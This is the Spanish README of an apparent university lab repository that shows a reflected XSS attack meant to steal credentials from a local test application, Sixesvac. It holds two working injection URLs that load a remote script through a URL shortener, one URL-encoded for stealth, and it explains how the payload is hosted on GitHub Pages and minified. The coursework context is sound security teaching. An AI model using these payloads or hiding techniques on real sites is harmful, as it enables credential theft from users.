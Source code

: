 # sixesvac-xss
Ejemplo de ataque de XSS para el robo de credenciales en la aplicación de prueba Sixesvac, para la asignatura de Auditoría e Xestión de Seguridade.

## URL a usar para el ataque XSS
1. `http://localhost:8080/privado/login.php?err_id=<script src="http://shorturl.at/depAO"></script>` (47 caracteres en parámetro de consulta)
3. `http://localhost:8080/privado/login.php?err_id=%3C%73%63%72%69%70%74%20%73%72%63%3D%22%68%74%74%70%3A%2F%2F%73horturl%2E%61%74%2FdepAO%22%3E%3C%2F%73%63%72%69%70%74%3E` (120 caracteres en parámetro de consulta; MÁS discreto mediante codificación URL)

## Cómo funciona
Se utiliza XSS para cargar un script subido a GitHub Pages, un servicio gratuito de GitHub que publica recursos estáticos de un repositorio de GitHub. Para acortar el URL se utiliza un acortador de URL gratuito. Además, el script diseñado para ejecutar el ataque está minificado lo máximo posible, sacrificando compatibilidad con Internet Explorer y navegadores más antiguos donde es necesario, para usar sintaxis y funciones más nuevas que redundan en un código más breve.

## Herramientas usadas
https://www.shorturl.at/shortener.php

https://onlinetexttools.com/url-encode-text

https://jscompress.com/
